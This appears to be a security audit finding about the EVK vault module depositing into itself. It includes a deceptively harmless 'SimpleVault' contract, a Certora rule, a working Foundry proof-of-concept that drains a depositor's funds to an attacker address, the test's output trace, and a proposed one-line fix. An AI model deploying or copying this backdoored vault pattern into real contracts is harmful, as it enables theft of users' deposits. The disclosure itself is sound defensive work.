 # EVK Vault module can Deposit to itself allowing to Drain all Assets

## Relevant Context
A seemingly harmless SimpleVault inheriting from the EVK can drain all the Assets of the Vault.

## Finding Description
The EVK VaultModule can deposit into itself, causing an internal inconsistency between the actual Vault balance and `totalAssets()`.
(more precisely between `asset.balanceOf(address(vault))` and `vault.totalAssets()`), even without using any borrowing functionnality.

SimpleVault, a contract inheriting from EVault, that appears completely harmless on its own, can exploit this inconsistency by calling VaultModule code to drain all the Assets of the Vault.


**`SimpleVault` code:**
<details  open>


```solidity

// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {EVault} from "src/EVault/EVault.sol";
import {IEVault} from "src/EVault/IEVault.sol";
import {Base} from "src/EVault/shared/Base.sol";

interface ISimpleVaultBase {
    function stake(uint256, address) external returns (uint256);
    function unstake(uint256, address, address) external returns (uint256);
}

interface ISimpleVault is IEVault, ISimpleVaultBase {}

contract SimpleVault is ISimpleVaultBase, EVault {
    constructor(Integrations memory integrations, DeployedModules memory modules) EVault(integrations, modules) {}

    /// Define aliases for 2 main Vault functions
    //  stake == deposit
    function stake(uint256 amount, address receiver) external returns (uint256) {
        return this.deposit(amount, receiver);
    }

    // unstake == withdraw
    function unstake(uint256 amount, address receiver, address owner) external returns (uint256) {
        return this.withdraw(amount, receiver, owner);
    }
}
```
</details>

The hack here is to call `this.deposit` and `this.withdraw` instead of `deposit` and `withdraw` to enable the Vault to be the actual caller. So depositing into itself, implying it's own balance unchanged (due to a trasfer of Assets to itsef, sort of `transfer(from, to)` with `to == from`)

So anyone can call `stake` with `totalAssets()` amount, and then call `unstake` with the same amount, draining all the Assets of the Vault in 2 transactions.


## Impact Explanation
EVK is unsecure, and can't be used as is as a Kit. If anyone promote a Vault like `SimpleVault` or any other form of EVK derivated Vault, inheriting from `EVault`, extanding it with new modules or modifying existing EVK code, can exploit this weakness and steal all users funds deposited in the Vault, event if the Vault is permissionless.

Main concern here is that `SimpleVault` seems harmless, but use one invisible EVK weakness.


## Likelihood Explanation
As soon as this type of derivated Vault from EVK is deployed, it can be exploited.

The likelihood is high, as the code is public and the exploit is easy to understand and implement.

The only hurdle is to promote this malicious Vault, without audits (saying "it's only 2 lines of code added..."), to attract users and encourange them to deposit funds in it.

Impact is that all sort of Vault like `SimpleVault` derivated from the EVK can drain all the Assets in 2 transactions.


## Proof of Concept
Weakness has been found via a Certora rule.

**Certora rule detecting the issue**
<details  open>

```solidity

// Shares are returned only and only if balance of actual caller strictly decrease
rule depositShares(env e, calldataarg args) {
  address caller = actualCaller(e);

  mathint _balanceCaller = userAssets(e, caller);
  uint256 shares = deposit(e, args);
  mathint balanceCaller_ = userAssets(e, caller);

  assert shares > 0 <=> balanceCaller_ < _balanceCaller;
}
```
</details>

This rule has counter examples only when `actualCaller == vault`, i.e. `shares > 0` without balance change

Here is a POC with a forge test, including traces and asserts:

**`DepositSelfHack` POC contract - File `test/contest/DepositSelfHack.sol`:**
<details>

```solidity

 // SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {SimpleVaultTest} from "./SimpleVault.t.sol";
import {ISimpleVault} from "src/EVault/SimpleVault.sol";
import {console2} from "forge-std/Test.sol";

contract DepositSelfHack is SimpleVaultTest {
    uint256 one = 1e18;
    address user = makeAddr("user");
    address hacker = makeAddr("hacker");

    function _log(string memory label) public view {
        console2.log(label, "| User   Balance :", assetTST.balanceOf(user));
        console2.log(label, "| Vault  Balance :", assetTST.balanceOf(address(eTST)));
        console2.log(label, "| Total  Assets  :", eTST.totalAssets());
        console2.log(label, "| Hacker Balance :", assetTST.balanceOf(hacker));
        console2.log("------------------------|-------------------------------------");
    }

    function test_depositSelfHack() public {
        assetTST.mint(user, one);
        _log("       User   Mint    1");

        hoax(user);
        assetTST.approve(address(eTST), one);

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == one);
        assert(assetTST.balanceOf(hacker) == 0);

        hoax(user);
        eTST.deposit(one, user);
        _log("       User   Deposit 1");

        ISimpleVault(address(eTST)).stake(one, address(eTST));
        _log("Buggy  Vault  Deposit 1");

        ISimpleVault(address(eTST)).unstake(one, hacker, address(eTST));
        _log("Hacker Vault  Steal   1");

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == 0);
        assert(assetTST.balanceOf(hacker) == one);
    }
}

```
</details>

**`SimpleVault` Test Setup - File `test/contest/SimpleVaultTest.sol`:**
<details>

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.13;

import {Test, console2, stdError} from "forge-std/Test.sol";
import {DeployPermit2} from "permit2/test/utils/DeployPermit2.sol";

import {GenericFactory} from "src/GenericFactory/GenericFactory.sol";

import {ProtocolConfig} from "src/ProtocolConfig/ProtocolConfig.sol";

import {Dispatch} from "src/EVault/Dispatch.sol";

import {Initialize} from "src/EVault/modules/Initialize.sol";
import {Token} from "src/EVault/modules/Token.sol";
import {Vault} from "src/EVault/modules/Vault.sol";
import {Borrowing} from "src/EVault/modules/Borrowing.sol";
import {Liquidation} from "src/EVault/modules/Liquidation.sol";
import {BalanceForwarder} from "src/EVault/modules/BalanceForwarder.sol";
import {Governance} from "src/EVault/modules/Governance.sol";
import {RiskManager} from "src/EVault/modules/RiskManager.sol";

// import {EVault} from "src/EVault/EVault.sol";
// import {ISimpleVault, IERC20} from "src/EVault/ISimpleVault.sol";
import {SimpleVault, ISimpleVault} from "src/EVault/SimpleVault.sol";

import {TypesLib} from "src/EVault/shared/types/Types.sol";
import {Base} from "src/EVault/shared/Base.sol";

import {EthereumVaultConnector} from "ethereum-vault-connector/EthereumVaultConnector.sol";

import {TestERC20} from "test/mocks/TestERC20.sol";
import {MockBalanceTracker} from "test/mocks/MockBalanceTracker.sol";
import {MockPriceOracle} from "test/mocks/MockPriceOracle.sol";
import {IRMTestDefault} from "test/mocks/IRMTestDefault.sol";
import {IHookTarget} from "src/interfaces/IHookTarget.sol";
import {SequenceRegistry} from "src/SequenceRegistry/SequenceRegistry.sol";

import {AssertionsCustomTypes} from "test/helpers/AssertionsCustomTypes.sol";

import "src/EVault/shared/Constants.sol";

contract SimpleVaultTest is AssertionsCustomTypes, Test, DeployPermit2 {
    EthereumVaultConnector public evc;
    address admin;
    address feeReceiver;
    address protocolFeeReceiver;
    ProtocolConfig protocolConfig;
    address balanceTracker;
    MockPriceOracle oracle;
    address unitOfAccount;
    address permit2;
    address sequenceRegistry;
    GenericFactory public factory;

    TestERC20 assetTST;

    ISimpleVault public eTST;

    address initializeModule;
    address tokenModule;
    address vaultModule;
    address borrowingModule;
    address liquidationModule;
    address riskManagerModule;
    address balanceForwarderModule;
    address governanceModule;

    Base.Integrations integrations;
    Dispatch.DeployedModules modules;

    function setUp() public virtual {
        admin = vm.addr(1000);
        feeReceiver = makeAddr("feeReceiver");
        protocolFeeReceiver = makeAddr("protocolFeeReceiver");
        factory = new GenericFactory(admin);

        evc = new EthereumVaultConnector();
        protocolConfig = new ProtocolConfig(admin, protocolFeeReceiver);
        balanceTracker = address(new MockBalanceTracker());
        oracle = new MockPriceOracle();
        unitOfAccount = address(1);
        permit2 = deployPermit2();
        sequenceRegistry = address(new SequenceRegistry());
        integrations =
            Base.Integrations(address(evc), address(protocolConfig), sequenceRegistry, balanceTracker, permit2);

        initializeModule = address(new Initialize(integrations));
        tokenModule = address(new Token(integrations));
        vaultModule = address(new Vault(integrations));
        borrowingModule = address(new Borrowing(integrations));
        liquidationModule = address(new Liquidation(integrations));
        riskManagerModule = address(new RiskManager(integrations));
        balanceForwarderModule = address(new BalanceForwarder(integrations));
        governanceModule = address(new Governance(integrations));

        modules = Dispatch.DeployedModules({
            initialize: initializeModule,
            token: tokenModule,
            vault: vaultModule,
            borrowing: borrowingModule,
            liquidation: liquidationModule,
            riskManager: riskManagerModule,
            balanceForwarder: balanceForwarderModule,
            governance: governanceModule
        });

        address evaultImpl = address(new SimpleVault(integrations, modules));

        vm.prank(admin);
        factory.setImplementation(evaultImpl);

        assetTST = new TestERC20("Test Token", "TST", 18, false);
        eTST = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(assetTST), address(oracle), unitOfAccount))
        );
        eTST.setInterestRateModel(address(new IRMTestDefault()));
        eTST.setMaxLiquidationDiscount(0.2e4);
        eTST.setFeeReceiver(feeReceiver);
    }

    address internal SYNTH_VAULT_HOOK_TARGET = address(new MockHook());
    uint32 internal constant SYNTH_VAULT_HOOKED_OPS = OP_DEPOSIT | OP_MINT | OP_REDEEM | OP_SKIM | OP_REPAY_WITH_SHARES;

    function createSynthEVault(address asset) internal returns (ISimpleVault) {
        ISimpleVault v = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(asset), address(oracle), unitOfAccount))
        );
        v.setInterestRateModel(address(new IRMTestDefault()));

        v.setInterestFee(1e4);

        v.setHookConfig(SYNTH_VAULT_HOOK_TARGET, SYNTH_VAULT_HOOKED_OPS);

        return v;
    }

    function getSubAccount(address primary, uint8 subAccountId) internal pure returns (address) {
        require(subAccountId <= 256, "invalid subAccountId");
        return address(uint160(uint160(primary) ^ subAccountId));
    }
}

contract MockHook is IHookTarget {
    error E_OnlyAssetCanDeposit();
    error E_OperationDisabled();

    function isHookTarget() external pure override returns (bytes4) {
        return this.isHookTarget.selector;
    }

    // deposit is only allowed for the asset
    function deposit(uint256, address) external view {
        address asset = ISimpleVault(msg.sender).asset();

        // these calls are just to test if there's no RO-reentrancy for the hook target
        ISimpleVault(msg.sender).totalBorrows();
        ISimpleVault(msg.sender).balanceOf(address(this));

        if (asset != caller()) revert E_OnlyAssetCanDeposit();
    }

    // all the other hooked ops are disabled
    fallback() external {
        revert E_OperationDisabled();
    }

    function caller() internal pure returns (address _caller) {
        assembly {
            _caller := shr(96, calldataload(sub(calldatasize(), 20)))
        }
    }
}

```
</details>

**`forge test --mt depositSelfHack -vv` produces this output:**
<details open>

```
 » forge test --mt depositSelfHack -vv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/contest/DepositSelfHack.t.sol:SimpleVault_DepositSelfHack
[PASS] test_depositSelfHack() (gas: 379373)
Logs:
         User   Mint    1 | User   Balance : 1000000000000000000
         User   Mint    1 | Vault  Balance : 0
         User   Mint    1 | Total  Assets  : 0
         User   Mint    1 | Hacker Balance : 0
  ------------------------|-------------------------------------
         User   Deposit 1 | User   Balance : 0
         User   Deposit 1 | Vault  Balance : 1000000000000000000
         User   Deposit 1 | Total  Assets  : 1000000000000000000
         User   Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Buggy  Vault  Deposit 1 | User   Balance : 0
  Buggy  Vault  Deposit 1 | Vault  Balance : 1000000000000000000
  Buggy  Vault  Deposit 1 | Total  Assets  : 2000000000000000000
  Buggy  Vault  Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Hacker Vault  Steal   1 | User   Balance : 0
  Hacker Vault  Steal   1 | Vault  Balance : 0
  Hacker Vault  Steal   1 | Total  Assets  : 1000000000000000000
  Hacker Vault  Steal   1 | Hacker Balance : 1000000000000000000
  ------------------------|-------------------------------------

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.88ms (1.05ms CPU time)

Ran 1 test suite in 154.01ms (4.88ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details>

## Recommendation

To prevent this weakness, add a one line check to prevent the Vault from depositing to itself.

**`Vault.sol` `deposit` function - Lines 123-128 of File `src/EVault/modules/Vault.sol`:**
<details  open>

```diff
    /// @inheritdoc IERC4626
    function deposit(uint256 amount, address receiver) public virtual nonReentrant returns (uint256) {
        (VaultCache memory vaultCache, address account) = initOperation(OP_DEPOSIT, CHECKACCOUNT_NONE);
+       require(account != address(this), "Vault: cannot deposit to self");

        Assets assets = amount == type(uint256).max ? vaultCache.asset.balanceOf(account).toAssets() : amount.toAssets();
        if (assets.isZero()) return 0;

```

</details>